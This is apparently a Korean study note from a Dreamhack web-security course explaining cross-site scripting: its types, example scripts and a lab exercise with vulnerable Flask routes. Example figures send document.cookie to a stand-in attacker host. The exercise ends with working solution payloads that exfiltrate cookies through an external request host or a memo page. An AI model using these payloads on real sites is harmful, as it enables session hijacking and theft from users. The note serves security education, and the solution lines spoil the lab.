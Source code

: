 # Cross Site Scripting(XSS)

## Cross Site Scripting(XSS)

- XSS는 클라이언트 취약점 중 하나로, 공격자가 웹 리소스에 악성 스크립트를 삽입해, 이용자의 웹 브라우저에서 해당 스크립트를 실행할 수 있다.
- 공격자는 해당 취약점을 통해 특정 계정의 세션 정보를 탈취하고 해당 계정으로 임의의 기능을 수행할 수 있다.
- Ex) 드림핵 웹 페이지에서 XSS 취약점이 존재하면 [https://dreamhack.io](https://dreamhack.io) 내에서 오리진 권한으로 악성 스크립트를 삽입한다. 이후에 이용자가 악성 스크립트가 포함된 페이지를 방문하면 공격자가 임의로 삽입한 스크립트가 실행되어 쿠키 및 세션이 탈취될 수 있다.
- 해당 취약점은 SOP 보안 정책이 등장하면서 서로 다른 오리진에서는 정보를 읽는 행위가 이전에 비해 힘들어졌다. 그러나 이를 우회하는 기술이 소개 되며 XSS 공격은 지속되고 있다.

## XSS 발생 예시와 종류

- XSS 공격은 이용자가 삽입한 내용을 출력하는 기능에서 발생한다.
- Ex) “안녕하세요, 00 회원님”과 같은 문구 또는 게시물과 댓글
- 클라이언트는 HTTP 형식으로 웹 서버에 리소스를 요청하고 서버로 받은 응답, 즉 HTML, CSS, JS 등의 웹 리소스를 시각화하여 이용자에게 보여준다.
- 이 때 HTML, CSS, JS와 등 과 같은 코드가 포함된 게시물을 조회할 경우 이용자는 변조된 페이지를 보거나 스크립트가 실행될 수 있다.

### XSS 종류

1. Stored XSS : XSS에 사용되는 악성 스크립트가 서버에 저장되고 서버의 응답에 담겨오는 XSS
2. Reflected XSS : XSS에 사용되는 악성 스크립트가 URL에 삽입되고 서버의 응답에 담겨오는 XSS
3. DOM-based XSS : XSS에 사용되는 악성 스크립트가 URL Fragment에 삽입되는 XSS * Fragment는 서버 요청 / 응답에 포함되지 않음
4. Universal XSS : 클라이언트의 브라우저 혹은 브라우저의 플러그인에서 발생하는 취약점으로 SOP 정책을 우회하는 XSS

## XSS 스크립트의 예시

- **자바스크립트는** 웹 문서의 동작을 정의한다. 이는 이용자가 버튼 클릭 시에 어떤 이벤트를 발생시킬지와 데이터 입력 시 해당 데이터를 전송하는 이벤트를 구현할 수 있다.
- 이러한 기능 외에도 이용자와의 상호작용 없이 이용자의 권한으로 정보를 조회하거나 변경하는 등의 행위가 가능하다.
- 이게 가능한 이유는 이용자를 식별하기 위한 세션 및 쿠키가 웹 브라우저에 저장되어 있기 때문이다.
- 따라서 공격자는 자바스크립트를 통해 이용자에게 보여지는 웹 페이지를 조작하거나, 웹 브라우저의 위치를 임의의 주소로 변경할 수 있다.
- 자바스크립트는 다양한 동작을 정의할 수 있기에 XSS 공격에 주로 사용된다.
---
### figure 1

```python
<script>
// "hello" 문자열 alert 실행.
alert("hello");
// 현재 페이지의 쿠키(return type: string)
document.cookie; 
// 현재 페이지의 쿠키를 인자로 가진 alert 실행.
alert(document.cookie);
// 쿠키 생성(key: name, value: test)
document.cookie = "name=test;";
// new Image() 는 이미지를 생성하는 함수이며, src는 이미지의 주소를 지정. 공격자 주소는 http://hacker.dreamhack.io
// "http://hacker.dreamhack.io/?cookie=현재페이지의쿠키" 주소를 요청하기 때문에 공격자 주소로 현재 페이지의 쿠키 요청함
new Image().src = "http://hacker.dreamhack.io/?cookie=" + document.cookie;
</script>
```

### figure 2

```python
<script>
// 이용자의 페이지 정보에 접근.
document;
// 이용자의 페이지에 데이터를 삽입.
document.write("Hacked By DreamHack !");
</script>
```

### figure 3

```python
<script>
// 이용자의 위치를 변경.
// 피싱 공격 등으로 사용됨.
location.href = "http://hacker.dreamhack.io/phishing"; 
// 새 창 열기
window.open("http://hacker.dreamhack.io/")
</script>
```
---
## Stored XSS

- **Stored XSS**는 서버의 데이터베이스 또는 파일 등의 형태로 저장된 악성 스크립트를 조회할 때 발생하는 XSS이다. 대표적으로 게시물과 댓글에 악성 스크립트를 포함해 업로드 하는 방식이 있다. 
- 게시물은 불특정 다수에게 보여지기 때문에 해당 기능에서 XSS 취약점이 존재할 경우 높은 파급력을 가진다.

## Reflected XSS

- **Reflected XSS**는 서버가 악성 스크립트가 담긴 요청을 출력할 때 발생한다. 대표적으로 게시판 서비스에서 작성된 게시물을 조회하기 위한 검색창에서 스크립트를 포함해 검색하는 방식이 있다. 
- 이용자가 게시물을 검색하면 서버에서는 검색 결과를 이용자에게 반환한다. 일부 서비스에서는 검색 결과를 응답에 포합하는데, 검색 문자열에 악성 스크립트가 포함되어 있다면 Reflected XSS가 발생할 수 있다.
- Reflected XSS는 Stored XSS와는 다르게 URL과 같은 이용자의 요청에 의해 발생한다. 따라서 공격을 위해서는 다른 이용자를 악성 스크립트가 포함된 링크에 접속하도록 유도해야 한다. 
- 이용자에게 링크를 직접 전달하는 방법은 악성 스크립트 포함 여부를 이용자가 눈치챌 수 있기 때문에 주로 **Click Jacking** 또는 **Open Redirect** 등 다른 취약점과 연계하여 사용한다.
## - 요약
- **Cross Site Scripting(XSS)** : 클라이언트 취약점, 공격자가 웹 리소스에 악성 스크립트를 삽입해 이용자의 웹 브라우저에서 해당 스크립트를 실행하는 취약점
- **Stored XSS**: 악성 스크립트가 서버 내에 존재, 이용자가 저장된 악성 스크립트를 조회할 때 발생
- **Reflected XSS** : 악성 스크립트가 이용자 요청 내에 존재, 이용자가 악성 스크립트가 포함된 요청을 보낸 후 응답을 출력할 때 존재.

## Exercise : XSS

### /vuln
```python
@app.route("/vuln")def vuln(): param = request.args.get("param", "") # 이용자가 입력한 vuln 인자를 가져옴 return param # 이용자의 입력값을 화면 상에 표시
```
### /memo
```python
||@app.route("/memo") # memo 페이지 라우팅|
||def memo(): # memo 함수 선언|
||global memo_text # 메모를 전역변수로 참조|
||text = request.args.get("memo", "") # 이용자가 전송한 memo 입력값을 가져옴|
||memo_text += text + "\n" # 이용자가 전송한 memo 입력값을 memo_text에 추가|
||return render_template("memo.html", memo=memo_text) # 사이트에 기록된 memo_text를 화면에 출력|
```
### /flag
```python
def read_url(url, cookie={"name": "name", "value": "value"}):
	cookie.update({"domain": "127.0.0.1"})
	 try:
		service = Service(executable_path="/chromedriver") 
		options = webdriver.ChromeOptions() 
		for _ in [
			"headless", 
			"window-size=1920x1080",
			"disable-gpu", 
			"no-sandbox", 
			"disable-dev-shm-usage", ]:
				options.add_argument(_)
		driver = webdriver.Chrome(service=service, options=options) 
		driver.implicitly_wait(3) 
		driver.set_page_load_timeout(3) 
		driver.get("http://127.0.0.1:8000/") 
		driver.add_cookie(cookie) 
		driver.get(url)
		except Exception as e: 
			driver.quit() 
			# return str(e) 
			return False
		driver.quit() 
		return True
def check_xss(param, cookie={"name": "name", "value": "value"}): 
	url = f"http://127.0.0.1:8000/vuln?param={urllib.parse.quote(param)}" 
	return read_url(url, cookie)
@app.route("/flag", methods=["GET", "POST"])
def flag():
	if request.method == "GET": 
		return render_template("flag.html") 
	elif request.method == "POST": 
		param = request.form.get("param")
		 if not check_xss(param, {"name": "flag", "value": FLAG.strip()}):
			  return '<script>alert("wrong??");history.go(-1);</script>' 
		return '<script>alert("good");history.go(-1);</script>'
```

<script>location.href = "http://RANDOMHOST.request.dreamhack.games/?memo=" + document.cookie;</script>

<script>var x=new URLSearchParams(location.search); document.getElementById('vuln').innerHTML = x.get('param');</script>

<img src="XSS-2" onerror="location.href='/memo?memo='+document.cookie">